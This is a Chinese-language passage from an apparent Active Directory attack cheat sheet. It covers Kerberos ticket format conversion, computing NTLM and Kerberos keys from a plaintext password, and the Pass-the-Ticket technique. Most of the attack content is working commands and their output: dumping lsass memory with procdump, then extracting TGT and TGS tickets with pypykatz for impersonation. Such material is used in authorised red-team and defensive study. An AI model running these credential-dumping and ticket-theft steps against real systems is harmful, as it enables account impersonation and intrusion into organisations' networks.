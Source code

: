 

#### 票据转换及计算kerbero密钥



##### 票据转换

Kerberos 票据有两种格式：ccache 和 krb。 ccache 是 Linux 机器用来存储票据（通常在文件中）的一种。 Windows中使用krb格式将票证存储在lsass内存中，也是通过网络传输票证的格式。

```
https://gitlab.com/Zer1t0/cerbero#convert
https://github.com/Zer1t0/ticket_converter

$ python ticket_converter.py ~/Anakin.ccache ~/Anakin.krb
Converting ccache => kirbi

```



##### 计算kerberos 密钥

可以使用工具将明文密码转换为kerberos Key

```python
https://gitlab.com/Zer1t0/cerbero#hash
https://gist.github.com/Kevin-Robertson/9e0f8bfdbf4c1e694e6ff4197f0a4372

import binascii, hashlib
input_str = "SOMETHING_AS_INPUT_TO_HASH"
ntlm_hash = binascii.hexlify(hashlib.new('md4', input_str.encode('utf-16le')).digest())
print ntlm_hash

#使用 cerbero hash
$ cerbero hash 'Vader1234!' -u contoso.local/Anakin
rc4:cdeae556dc28c24b5b7b14e9df5b6e21
aes128:18fe293e673950214c67e9f9fe753198
aes256:ecce3d24b29c7f044163ab4d9411c25b5698337318e98bf2903bbb7f6d76197e
```



#### Pass The Ticket

Pass the Ticket 技术包括窃取票证和相关的会话密钥，并使用它们来模拟用户以访问资源或服务。 TGT 和 ST 都可以使用，但首选 TGT，因为它们允许代表用户访问任何服务（通过使用它来请求 ST），而 ST 仅限于一项服务（或更多，如果 SPN被修改为同一用户的另一个服务），简单来说，就是窃取电脑中已经存在的票据进行使用

在 Windows 中，票证可以在 lsass 进程内存中找到，并且可以使用 `mimikatz sekurlsa::tickets` 命令或 `Rubeus dump` 命令提取。另一种可能性是使用 [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)、[sqldumper 或其他工具](https://lolbas-project.github.io/#/dump)转储 lsass 进程，并使用 mimikatz 或 pypykatz 离线提取票证。这些命令提取 krb 格式的票证。

```powershell
#使用 procdump 转储 lsass 内存
.\procdump.exe -accepteula -ma lsass.exe lsass.dmp

#使用 pypykatz 从 lsass 转储中检索票证
$ pypykatz lsa minidump lsass.dmp -k /tmp/kerb > output.txt
INFO:root:Parsing file lsass.dmp
INFO:root:Writing kerberos tickets to /tmp/kerb
$ ls /tmp/kerb/
 lsass.dmp_51a1d3f3.ccache                                                        'TGS_CONTOSO.LOCAL_WS02-7$_WS02-7$_29a9c991.kirbi'
 lsass.dmp_c9a82a35.ccache                                                         TGT_CONTOSO.LOCAL_anakin_krbtgt_CONTOSO.LOCAL_6483baf5.kirbi
 TGS_CONTOSO.LOCAL_anakin_LDAP_dc01.contoso.local_contoso.local_f8a46ad5.kirbi    'TGT_CONTOSO.LOCAL_WS02-7$_krbtgt_CONTOSO.LOCAL_740ef529.kirbi'
'TGS_CONTOSO.LOCAL_WS02-7$_cifs_dc01.contoso.local_b9833fa1.kirbi'                'TGT_CONTOSO.LOCAL_WS02-7$_krbtgt_CONTOSO.LOCAL_77d63cf0.kirbi'
```